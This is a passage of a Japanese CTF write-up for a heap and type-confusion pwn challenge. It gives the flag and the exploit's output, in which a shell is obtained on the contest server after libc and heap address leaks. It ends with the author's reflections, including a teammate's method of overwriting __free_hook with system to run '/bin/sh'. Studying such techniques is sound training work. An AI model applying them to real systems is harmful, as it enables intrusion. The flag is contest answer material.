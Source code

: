 ## Flag

当日はチームメイトが解きましたが、鯖が動いていたので終了後に自力で解きました

`KosenCTF{add_0x2000000000000_to_double_precision_values}`

Exploitの実行結果はこちら

```
$ xplt
[*] '/mnt/c/share/CTF/interkosen2020/confusing/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
[*] '/mnt/c/share/CTF/interkosen2020/confusing/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn.kosenctf.com on port 9005: Done
[EXPLOIT][+]: libc address -> 0x7f47db17d000
[EXPLOIT][+]: heap address -> 0x17ad000
[*] Switching to interactive mode
$ ls
chall
flag-1bdc5727ec49424f60f9e73ade834db6.txt
redir.sh
$ cat flag-1bdc5727ec49424f60f9e73ade834db6.txt
KosenCTF{add_0x2000000000000_to_double_precision_values}
```

## 感想

Type Confusion要素はめちゃくちゃ面白かったです。Browser ExploitがType Confusionが多いとの事で挑戦してみたくなりましたし、ユーザーランドのELF問題でもこういう形式が増えて欲しいです。
が、freeの起こるタイミングのコントロールが難しくHeapパートは大変でした。
C++問題でも`string`型のせいでHeap領域を掻き乱されたり等、この手の裏で行われているmallocにはいい思い出があまり無いですが、問題に触れるのを繰り返してこういうのに慣れていけたら嬉しいです。

解き終わった後に当日解いたチームメイトに聞いたら`__free_hook`の手前から書き込んで`free`するポインタは`"/bin/sh"`を指すようにし、同時に`__free_hook`に`system`のアドレスを入れて落ちる事を回避していたらしい、天才か?
作問者Writeupはサイズの偽装を行ってうまい具合に`__free_hook`に嫌な値が入るのを防いでいました、天才か?